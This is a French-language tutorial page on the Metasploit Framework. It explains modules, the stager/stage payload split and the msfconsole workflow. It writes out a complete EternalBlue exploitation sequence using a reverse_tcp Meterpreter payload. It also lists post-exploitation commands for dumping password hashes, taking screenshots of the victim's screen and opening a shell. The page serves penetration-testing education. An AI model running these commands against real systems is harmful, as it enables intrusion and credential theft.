


# Metasploit — L'Armurerie Complète

<div
  class="omny-meta"
  data-level="🟡 Intermédiaire"
  data-version="6.3+"
  data-time="~35 minutes">
</div>

<div style="text-align: center; margin: 0 auto;">
    
</div>

## Introduction

!!! quote "Analogie pédagogique — Le Fusil de Précision Modulaire"
    Avant Metasploit, un hacker devait coder son propre exploit (en C ou en Perl), puis coder son propre "Payload" (la charge explosive), et prier pour que les deux s'emboîtent.
    **Metasploit** est un fusil de précision modulaire. Vous choisissez le canon (l'Exploit), vous choisissez la balle (le Payload : Windows, Linux, Android), vous réglez la lunette (l'adresse IP cible), et vous appuyez sur la détente. Si vous changez de cible, vous gardez le même fusil et vous changez juste de munitions.

Racheté et maintenu par **Rapid7**, le Metasploit Framework (MSF) a révolutionné la sécurité informatique. Écrit en Ruby, c'est l'outil central de l'étape d'exploitation. Il regroupe plus de 4 000 modules d'attaque et des centaines de payloads prêts à l'emploi. Que vous cherchiez à pirater un vieux Windows XP (MS08-067) ou le dernier serveur Web Apache vulnérable, l'exploit a 99% de chances d'être déjà codé et disponible dans Metasploit.

<br>

---

## Architecture & Mécanismes Internes

### 1. La Taxonomie des Modules
Dans Metasploit, tout est un *Module*. Il est vital de comprendre la différence entre chaque catégorie.



### 2. Le Mécanisme "Stager" vs "Stage" (Le Payload Meterpreter)
La plus grande invention de Metasploit est le **Meterpreter** (Metasploit Interpreter).
Plutôt que d'envoyer un virus de 5 Mo (qui serait bloqué par le réseau ou trop lourd pour la faille de Buffer Overflow), Metasploit fonctionne en deux temps.



<br>

---

## Intégration dans la Kill Chain

| Phase Précédente | Metasploit | Phase Suivante |
| :--- | :--- | :--- |
| **Scan de Vulnérabilité** <br> (*OpenVAS / Nmap*) <br> Découverte d'un FTP ProFTPD vulnérable (CVE-2015-3306). | ➔ **Exploitation** ➔ <br> Configuration de `exploit/unix/ftp/proftpd_modcopy_exec` et exécution. | **Post-Exploitation** <br> (*Meterpreter / Privesc*) <br> Utilisation du module `post/linux/gather/hashdump` pour voler les mots de passe. |

<br>

---

## Workflow Opérationnel & Lignes de Commande (msfconsole)

Metasploit s'utilise via son interface terminal interactive : `msfconsole`.

### 1. Démarrage et Recherche
La base de données (PostgreSQL) doit être lancée pour que les recherches d'exploits soient instantanées.
```bash title="Initialisation de la base"
sudo systemctl start postgresql
sudo msfdb init
msfconsole -q
```
*(Le `-q` pour Quiet empêche l'affichage du gros logo ASCII au démarrage).*

Une fois dans la console `msf6 >`, on cherche notre cible :
```bash title="Recherche d'un exploit"
search type:exploit platform:windows smb eternalblue
```

### 2. Le Workflow de tir (Les 5 étapes)
L'exploitation dans Metasploit suit **toujours** cette procédure rigoureuse.
```bash
# 1. Sélectionner le module
use exploit/windows/smb/ms17_010_eternalblue

# 2. Afficher les options requises
show options

# 3. Configurer la cible (RHOSTS = Remote Hosts)
set RHOSTS 10.10.10.40

# 4. Configurer le Payload (Ce qu'on veut faire une fois rentré)
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST tun0  # (Local Host: Notre IP d'attaquant / IP VPN)

# 5. Feu !
exploit
```
Si l'exploit réussit, le prompt change et devient `meterpreter >`. Vous êtes à l'intérieur de la machine cible.

### 3. La Post-Exploitation (Meterpreter)
Meterpreter possède des centaines de commandes intégrées pour hacker la machine, sans déclencher les alertes classiques.
```bash title="Exemples de commandes Meterpreter"
getuid          # Voir qui on est (ex: NT AUTHORITY\SYSTEM)
hashdump        # Voler la base de mots de passe Windows (SAM)
screenshot      # Prendre une capture d'écran du bureau de la victime
shell           # Obtenir l'invite de commande classique (cmd.exe)
background      # Mettre le shell en tâche de fond pour utiliser un autre module
```

<br>

---

## Bonnes & Mauvaises Pratiques (Do's & Don'ts)

| Action | Recommandation | Explication technique |
|---|---|---|
| ✅ **À FAIRE** | **Utiliser `sessions -i`** | Quand vous mettez un shell en arrière-plan (`background` ou `Ctrl+Z`), vous revenez sur la console msf. Pour retourner dans le shell de la victime, tapez `sessions -l` (pour lister) puis `sessions -i 1` (pour interagir avec la session n°1). |
| ❌ **À NE PAS FAIRE** | **Utiliser les Encoders (Shikata_Ga_Nai) comme Antivirus Bypass** | Dans les années 2010, on utilisait l'encoder `x86/shikata_ga_nai` pour obfusquer le payload afin que l'antivirus (Windows Defender) ne le voie pas. **Aujourd'hui, c'est l'inverse.** Les antivirus connaissent tellement bien cet encoder que si vous l'utilisez, l'antivirus le détectera à 100% et vous bloquera. L'évasion d'AV moderne ne se fait plus via Metasploit de base. |

<br>

---

## Avertissement Légal & Détection

!!! danger "L'outil le plus surveillé au monde"
    Puisque Metasploit est open-source, **tous les éditeurs d'antivirus et de pare-feux mondiaux possèdent le code source des attaques**.
    - Si vous envoyez un payload Metasploit standard (non modifié) sur un Windows 10/11 à jour, il sera détruit par Windows Defender en moins d'une milliseconde.
    - Lors d'une vraie Red Team, Metasploit n'est jamais utilisé sur les machines des utilisateurs finaux (Trop de sécurité EDR/AV). Il est généralement utilisé sur des vieux serveurs Linux ou de l'infrastructure interne obsolète.

<br>

---

## Conclusion

!!! quote "Ce qu'il faut retenir"
    Metasploit est le squelette de l'industrie du test d'intrusion. Savoir manipuler la console `msfconsole`, configurer le couple `LHOST/RHOST` et utiliser le `Meterpreter` est une compétence non négociable pour tout professionnel de la cybersécurité. Même si l'évasion des défenses modernes nécessite aujourd'hui des outils sur-mesure, Metasploit reste le framework le plus puissant pour coordonner une attaque.

> La console interactive Metasploit est géniale, mais que se passe-t-il si vous avez simplement besoin de fabriquer le fichier virus (`.exe` ou `.apk`) pour l'envoyer à la victime via une clé USB ou par email (sans utiliser `msfconsole`) ? C'est le rôle de son usine de génération d'armes autonome : **[Msfvenom →](./msfvenom.md)**.
